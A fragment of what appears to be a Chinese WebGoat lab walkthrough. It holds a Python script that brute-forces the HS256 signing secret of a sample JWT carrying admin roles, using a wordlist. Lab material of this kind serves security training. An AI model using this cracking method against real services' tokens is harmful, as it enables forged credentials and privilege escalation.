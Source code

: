 exp

```python
import jwt # pip install pyjwt
import json

alg = "HS256"
jwt_str = "eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTY4MDg3MDQxNiwiZXhwIjoxNjgwODcwNDc2LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.NR4PAOrAiag9ra2ZByWVEOzVbiKSgBTk99Q0z-VRqY8"
with open('password/google-10000-english/20k.txt', encoding='utf-8') as f:
    for line in f:
        key_ = line.strip()
        try:
            jwt.decode(jwt_str, verify=True, key=key_, algorithms="HS256")
            print('found key! --> ' + key_)
            break
        except(jwt.exceptions.ExpiredSignatureError, jwt.exceptions.InvalidAudienceError,
               jwt.exceptions.InvalidIssuedAtError, jwt.exceptions.InvalidIssuedAtError,
               jwt.exceptions.ImmatureSignatureError):
            print('found key! --> ' + key_)
            break
        except jwt.exceptions.InvalidSignatureError:
            continue
    else:
        print("key not found!")
```

### 刷新Token

![刷新Token](./刷新Token.png)
